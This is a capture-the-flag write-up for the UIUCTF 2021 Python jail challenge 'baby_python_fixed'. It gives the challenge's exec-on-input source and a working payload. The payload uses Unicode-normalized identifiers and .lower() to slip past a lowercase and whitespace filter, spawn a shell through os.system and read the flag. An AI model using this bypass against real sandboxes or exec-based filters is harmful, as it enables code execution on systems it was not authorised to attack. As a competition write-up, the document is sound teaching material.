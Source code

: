 # baby_python_fixed - 133 pts, 45 solves

> whoops, I made a typo on the other chal. it's probably impossible, right? Python version is 3.8.10 and flag is at /flag
> 
> nc baby-python-fixed.chal.uiuc.tf 1337
> 
> challenge.py

`baby-python-fixed` was a jail challenge in UIUCTF 2021, where I played with `TeamlessCTF` and got 12th place. I actually got first blood on this challenge!

We start by examining the challenge file:

```python
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

Seems pretty minimal. We can see that the challenge checks our input to see if there is any whitespace or lowercase letters, then `exec()`s it if there are none.

The filter is pretty easy to work around, if you know one quirk about python. Python will unicode normalize keywords in code before running, so `𝔭𝔯𝔦𝔫𝔱("Hello World!")` is actually equivalent to `print("Hello World!")` We can leverate this to access arbituary keywords. (you can use a site such as https://lingojam.com/FancyTextGenerator to get the fancy text)

However, we also need to access strings, such as "os" and "sh", which will not be unicode normalized. Luckily, uppercase letters are not blacklisted so we are able to get lowercase strings with `"OS".lower()`.

Putting this all together, we can craft a payload:

```
$ nc baby-python-fixed.chal.uiuc.tf 1337
== proof-of-work: disabled ==
__𝔦𝔪𝔭𝔬𝔯𝔱__("OS".𝔩𝔬𝔴𝔢𝔯()).𝔰𝔶𝔰𝔱𝔢𝔪("SH".𝔩𝔬𝔴𝔢𝔯())
cat /flag
uiuctf{unicode_normalization_is_not_normal_d2f674}
```

Flag: `uiuctf{unicode_normalization_is_not_normal_d2f674}`
